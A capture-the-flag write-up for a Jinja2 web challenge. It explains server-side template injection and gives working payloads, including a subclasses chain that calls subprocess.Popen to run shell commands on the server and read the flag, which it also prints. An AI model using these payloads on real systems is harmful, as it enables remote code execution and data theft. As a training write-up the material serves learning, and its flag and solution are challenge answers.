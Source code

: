 # Writeup [Templating](./README.md)

## Challenge description
Onkel Skrue hadde alltid vært flink med penger og investeringer, og han hadde nettopp bestemt seg for å begynne å bruke en notat applikasjon for å holde styr på alle sine økonomiske transaksjoner. Han visste at han trengte en pålitelig og sikker app for å sikre at hans sensitive finansielle data ikke ble kompromittert.

Så han kontaktet en utvikler for å få bygget en skreddersydd notat applikasjon. Han presset utvikleren til å tilby en lav pris og var fornøyd med at han hadde klart å spare litt penger. Men er applikasjonen virkelig så sikker som han tror?

**Points: 1000**

**Author: AresDiode**

**Difficulty: challening**

**Category: Web** (optional, several may be added if suitable)

---

## Writeup

In this task you are given a web application that uses Jinja2 templating engine. The application is vulnerable to RCE (Remote Code Execution) and the goal is to get the flag.

### Vulnerability
SSTI, or Server-Side Template Injection, is a type of web application vulnerability that occurs when user-supplied input is not properly sanitized and is used as part of a server-side template engine. This allows an attacker to inject and execute arbitrary code within the server-side template, which can lead to remote code execution and compromise of the affected system.

Server-side templates are commonly used in web applications to generate dynamic HTML pages based on user input. These templates often contain placeholders for data that is dynamically inserted by the server. If an attacker can manipulate these placeholders and inject malicious code, the server may execute that code and perform unintended actions.

SSTI vulnerabilities are a serious security concern and can be exploited to gain unauthorized access, steal sensitive data, or launch further attacks. Web application developers can prevent SSTI vulnerabilities by properly sanitizing user input, using strict input validation, and avoiding the use of user input in server-side templates whenever possible.

### Exploitation
To test if the application is vulnerable to SSTI, you can try to inject a simple payload for example:

```
{{7*7}}
```
If the application is vulnrarable it will return the result of the expression, in this case 49. This means that the application is vulnerable to SSTI, and the template engine executed our code. Now in order to properly exploit this we need to know what type of templating engine is running, this can be done with tools such as Wappalyzer. In this case the application is using Jinja2. Now we need to find a way to execute commands on the server. After some research I found that the following payload will execute a command on the server:

```
{{ ''.__class__.__mro__[2].__subclasses__()}}
```
This will list out all the possible sub classes we can use, what we are interested in is subprocess.Popen, this is number 246 in the list, to format the list you can use a text editor and replace every comma with a new line. Now we can use the following payload to execute a command:

```
{{ ''.__class__.__mro__[2].__subclasses__()[245]('strings flag/flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

And then... Whoop whoop, we got the flag!

```
TG23{L0nn3r_s3g_ikk3_å_være_gjærrig}
```
